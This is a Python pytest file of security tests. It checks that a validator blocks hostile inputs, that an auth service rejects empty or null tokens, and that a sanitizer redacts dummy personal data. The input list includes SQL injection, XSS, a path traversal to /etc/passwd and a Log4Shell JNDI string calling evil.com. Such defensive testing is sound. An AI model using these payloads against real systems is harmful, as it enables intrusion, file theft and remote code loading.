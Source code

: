```python
    # Test malicious inputs that previously caused vulnerabilities
    malicious_inputs = [
        "'; DROP TABLE users; --",
        "<script>alert('xss')</script>",
        "../../../../etc/passwd",
        "javascript:alert('xss')",
        "${jndi:ldap://evil.com/a}"
    ]
    
    for malicious_input in malicious_inputs:
        result = await security_validator.validate_input(malicious_input)
        
        # Assert: All malicious inputs are blocked
        assert result.is_safe is False
        assert result.threat_level == SecurityThreat.HIGH
        assert result.blocked is True

@pytest.mark.security
@pytest.mark.zero_vulnerability
async def test_authentication_security_patterns(
    auth_service: AuthenticationService
) -> None:
    """Test authentication patterns prevent security vulnerabilities.
    
    Portfolio ULTRATHINK Achievement: Enterprise-grade security validation
    """
    # Test authentication bypass attempts
    bypass_attempts = [
        {"token": ""},
        {"token": "invalid"},
        {"token": "Bearer "},
        {"token": "null"},
        {"token": "undefined"}
    ]
    
    for attempt in bypass_attempts:
        with pytest.raises(AuthenticationError):
            await auth_service.validate_token(attempt["token"])

@pytest.mark.security
@pytest.mark.zero_vulnerability
async def test_data_sanitization_security(
    data_sanitizer: DataSanitizer
) -> None:
    """Test data sanitization prevents data leakage vulnerabilities.
    
    Portfolio ULTRATHINK Achievement: Zero vulnerability data handling
    """
    # Test PII and sensitive data patterns
    sensitive_data = {
        "email": "user@example.com",
        "ssn": "123-45-6789",
        "credit_card": "4111-1111-1111-1111",
        "api_key": "sk-1234567890abcdef",
        "password": "secretpassword123"
    }
    
    result = await data_sanitizer.sanitize(sensitive_data)
    
    # Assert: All sensitive data is properly redacted
    assert result["email"] == "[REDACTED_EMAIL]"
    assert result["ssn"] == "[REDACTED_SSN]"
    assert result["credit_card"] == "[REDACTED_CREDIT_CARD]"
```